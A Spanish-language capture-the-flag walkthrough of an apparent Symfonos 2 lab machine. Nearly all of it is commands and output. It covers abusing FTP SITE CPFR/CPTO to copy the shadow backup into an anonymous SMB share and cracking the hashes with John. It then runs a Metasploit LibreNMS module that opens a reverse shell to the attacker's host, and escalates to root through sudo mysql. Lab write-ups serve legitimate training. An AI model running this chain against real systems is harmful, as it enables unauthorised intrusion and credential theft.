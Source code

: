 1. Escaneo de puertos 
```
nmap -p- --open -n -Pn -vvv -sCS --min-rate 5000 -oN ports 192.168.18.135
```
Impresión
```java
Discovered open port 445/tcp on 192.168.18.135
Discovered open port 21/tcp on 192.168.18.135
Discovered open port 80/tcp on 192.168.18.135
Discovered open port 139/tcp on 192.168.18.135
Discovered open port 22/tcp on 192.168.18.135
```

2.  El servicio de `ftp`  tiene una vulnerabilidad que permite robar archivos, si se conoce la ruta de dicho contenido.

3. Escanear el servicio `smb`
```
smbmap -H 192.168.18.135
```
Impresión
```java
Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	anonymous                                         	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.5.16-Debian
```
El usuario Anonymous tiene permisos solo de lectura

4. Entrar como el usuario `anonymous` sin proporcionar contraseña `-N`
```
smbclient //192.168.18.135/anonymous -N
ls
```
Impresión
```
backups                             D        0  Thu Jul 18 09:25:17 2019
```
Buscar contenido en la carpeta
```
cd backups/
```
Impresión 
```
log.txt                             N    11394  Thu Jul 18 09:25:16 2019
```
Extraer el archivo
```
get log.txt
```

5. Buscar usuarios en el log.txt y buscar dentro del archivo para y por qué esta ese usuario
```
cat log.txt | grep 'home'
```
En el archivo dice lo siguiente 
```
[anonymous]
   path = /home/aeolus/share
   browseable = yes
   read only = yes
   guest ok = yes
```
Esto significa que los recursos compartidos de encuentran en `/home/aeolus/share` , por lo tanto es posible copiar un archivo como el `shadow` (Donde se almacenan las contraseñas de los usuarios) y pegarlo en dicha ruta donde si tenemos acceso.

6. Según el `log.txt` existe una ruta para el `shadow`
```
cat log.txt| grep 'shadow'
```
Impresión
```
root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
```

7. Con `netcat` conectarse por le ftp por el puerto 21
```
nc 192.168.18.224 21
```

8. Robar el archivo `shadow`
```
SITE CPFR /var/backups/shadow.bak
```

9. Pegar en la ruta que tenemos acceso para compartir 
```
SITE CPTO /home/aeolus/share/shadow.bak 
```

10. Descargar el archivo (Dentro del servicio `smb`) 
```
get shadow.bak
```

11. Romperlo con John (Cambiar el nombre del archivo)
```
john --wordlist=/usr/share/wordlists/rockyou.txt shadow
```
Impresión 
```java
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

Esperar hasta 
```
sergioteamo      (aeolus)
```

12. Conectarse por el `ssh` con el usuario y contraseña crackeado
```
ssh aeolus@192.168.18.224
```

13. Buscar dentro del directorio /opt (Siempre hay cosas interesantes por ahí)
```
cd /opt
```

14. Buscar por que puerto esta corriendo ese servicio encontrado en el `/opt` 
```
ss -tuln 
```
Con ese comendo se puede conocer que puertos están a la escucha
Impresión 
```
tcp    LISTEN     0      80                         127.0.0.1:3306                                           *:*                  
tcp    LISTEN     0      50                                 *:139                                            *:*                  
tcp    LISTEN     0      128                        127.0.0.1:8080                                           *:*             
```

15. Identificar que esta corriendo por ese puerto
```
curl 127.0.0.1:8080
```
Impresión
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url=http://127.0.0.1:8080/login" />

        <title>Redirecting to http://127.0.0.1:8080/login</title>
    </head>
    <body>
        Redirecting to <a href="http://127.0.0.1:8080/login">http://127.0.0.1:8080/login</a>.
    </body>
```
Aquí podemos ver que esta corriendo un Login

16. El servicio que corre en el puerto 8080 esta alojado en local dentro de la maquina, para poder ver este apartado es necesario traerlo a nuestra maquina 
```
ssh -L 5000:localhost:8080 aeolus@192.168.18.224
```
De este modo estamos diciendo que el puerto 5000 de la maquina atacante va a ser el puerto 8080 (Por donde esta corriendo el servicio) de la maquina victima.

17. Comprobar en el navegador 
```
http://127.0.0.1:5000
```

18. Con uso de meterpreter
```
msfconsole
>> search librenms
>> usea 1
>> show options 
>> set PASSWORD sergioteamo
>> set USERNAME aeolus 
>> set RHOSTS 127.0.0.1
>> set RPORT 5000
>> set LHOST 192.168.18.225
>> set LPORT 6000
>> run
shell 
```

19. Dentro de la maquina 
```
sudo -l 
```

20. GTFonbins buscar 'mysql', ejecutar 
```
sudo mysql -e '\! /bin/sh'
```
